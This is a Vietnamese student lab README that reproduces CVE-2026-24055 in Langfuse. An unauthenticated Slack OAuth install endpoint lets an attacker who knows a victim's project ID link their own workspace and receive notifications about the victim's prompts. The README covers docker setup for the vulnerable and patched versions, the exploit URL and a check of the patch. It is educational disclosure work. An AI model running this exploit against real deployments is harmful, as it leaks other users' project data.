

# CVE-2026-24055 — Unauthenticated Slack OAuth Install in Langfuse

> **Đồ án môn Bảo mật Web và Ứng dụng** — Nhóm 06, lớp NT213.Q21.ANTT

---

## Mục lục

- [Mô tả lỗ hổng](#mô-tả-lỗ-hổng)
- [Yêu cầu hệ thống](#yêu-cầu-hệ-thống)
- [Chuẩn bị trước khi chạy](#chuẩn-bị-trước-khi-chạy)
- [Demo khai thác — Vulnerable v3.146.0](#demo-khai-thác--vulnerable-v3146)
- [Verify bản vá — Patched v3.147.0](#verify-bản-vá--patched-v3147)
- [Tắt môi trường](#tắt-môi-trường)
- [Tài liệu tham khảo](#tài-liệu-tham-khảo)

---

## Mô tả lỗ hổng

**CVE-2026-24055** là lỗ hổng **Improper Access Control** trong Langfuse từ phiên bản `3.89.0` đến `3.146.0`.

Endpoint `/api/public/slack/install` **không yêu cầu xác thực**, cho phép attacker bind Slack workspace của mình vào bất kỳ project nào chỉ cần biết `projectId`. Khi victim tạo automation gửi thông báo lên Slack, toàn bộ nội dung prompt sẽ bị rò rỉ sang workspace của attacker.

| Thuộc tính | Chi tiết |
|---|---|
| **CWE** | CWE-284 — Improper Access Control |
| **Phiên bản bị ảnh hưởng** | Langfuse `3.89.0` – `3.146.0` |
| **Phiên bản đã vá** | Langfuse `3.147.0` |
| **GitHub Advisory** | [GHSA-pvq7-vvfj-p98x](https://github.com/langfuse/langfuse/security/advisories/GHSA-pvq7-vvfj-p98x) |
| **NVD** | [CVE-2026-24055](https://nvd.nist.gov/vuln/detail/CVE-2026-24055) |

### Luồng tấn công



---

## Yêu cầu hệ thống

| Công cụ | Phiên bản tối thiểu |
|---|---|
| Docker Desktop | 24.0+ |
| Docker Compose | v2 |
| Git | bất kỳ |
| RAM | 8 GB |

---

## Chuẩn bị trước khi chạy

### Tạo Slack App

> Slack API cho phép sử dụng `http://localhost:3000` làm Redirect URL, **không cần ngrok**.

1. Vào [https://api.slack.com/apps](https://api.slack.com/apps) → **Create New App** → **From scratch**
2. Đặt tên app, chọn workspace
3. Vào **OAuth & Permissions** → **Redirect URLs** → thêm:
   ```
   http://localhost:3000
   ```
4. Lưu lại **Client ID** và **Client Secret**

---

## Demo khai thác — Vulnerable v3.146

### Bước 1 — Cấu hình môi trường

```bash
cd vulnerable
cp .env.example .env
```

Mở file `.env`, điền các giá trị sau:

```env
NEXTAUTH_URL=http://localhost:3000
SLACK_CLIENT_ID=<your-slack-client-id>
SLACK_CLIENT_SECRET=<your-slack-client-secret>
SLACK_STATE_SECRET=any-random-string
```

### Bước 2 — Khởi động Langfuse v3.146.0

```bash
docker compose up -d
```

Kiểm tra các container đã sẵn sàng:

```bash
docker compose ps
```

> Chờ khoảng 30–60 giây. Tất cả container phải ở trạng thái `Up (healthy)`.

### Bước 3 — Tạo tài khoản

Truy cập `http://localhost:3000`:

1. **Tài khoản Victim**
   - Đăng ký tài khoản, tạo Organization → tạo Project
   - Vào **Settings** → ghi lại **Project ID**

2. **Tài khoản Attacker**
   - Mở tab ẩn danh, đăng ký tài khoản khác (hoặc **không đăng nhập**)

### Bước 4 — Thực hiện khai thác

Trên trình duyệt của attacker (**không cần đăng nhập Langfuse**), truy cập:

```
http://localhost:3000/api/public/slack/install?projectId=<victim-project-id>
```

Luồng diễn ra:
- Server **không kiểm tra xác thực**, redirect thẳng đến Slack OAuth
- Đăng nhập Slack workspace của attacker → click **Allow**
- Workspace của attacker đã được bind vào project của victim

### Bước 5 — Xác nhận dữ liệu bị rò rỉ

Đăng nhập với tài khoản **victim**:

1. Vào **Settings** → **Integrations** → kiểm tra Slack đã kết nối (workspace của attacker)
2. Tạo Automation: **Prompts** → **Automations** → **New**
   - Trigger: `Prompt created / updated / deleted`
   - Action: `Slack` → chọn channel
3. Victim tạo một prompt mới
4. Slack của attacker nhận thông báo chứa metadata của prompt (tên, version, labels, tags)

---

## Verify bản vá — Patched v3.147

### Bước 1 — Tắt môi trường cũ

```bash
cd ../vulnerable
docker compose down
```

### Bước 2 — Khởi động Langfuse v3.147.0

```bash
cd ../patched
cp .env.example .env
# Điền các giá trị giống phần vulnerable
docker compose up -d
```

### Bước 3 — Chạy lại khai thác

**Thử không đăng nhập:**

```
http://localhost:3000/api/public/slack/install?projectId=<any-project-id>
```

Kết quả mong đợi — HTTP `401`:

```json
{ "error": "Authentication required" }
```

**Thử đăng nhập attacker, dùng projectId của victim:**

```
http://localhost:3000/api/public/slack/install?projectId=<victim-project-id>
```

Kết quả mong đợi — HTTP `403`:

```json
{ "error": "You do not have permission to configure Slack for this project" }
```

Lỗ hổng đã được vá hoàn toàn.

---

## Tắt môi trường

```bash
docker compose down
```

Nếu muốn xóa toàn bộ data (volumes):

```bash
docker compose down -v
```

---

## Cấu trúc thư mục

```
cve-2026-24055/
├── README.md                  ← file này
├── vulnerable/
│   ├── docker-compose.yml     ← Langfuse v3.146.0 (có lỗ hổng)
│   └── .env.example
└── patched/
    ├── docker-compose.yml     ← Langfuse v3.147.0 (đã vá)
    └── .env.example
```

---

## Tài liệu tham khảo

- [GitHub Security Advisory — GHSA-pvq7-vvfj-p98x](https://github.com/langfuse/langfuse/security/advisories/GHSA-pvq7-vvfj-p98x)
- [NVD — CVE-2026-24055](https://nvd.nist.gov/vuln/detail/CVE-2026-24055)
- [Commit fix — 3adc89e](https://github.com/langfuse/langfuse/commit/3adc89e4d72729eabef55e46888b8ce80a7e3b0a)
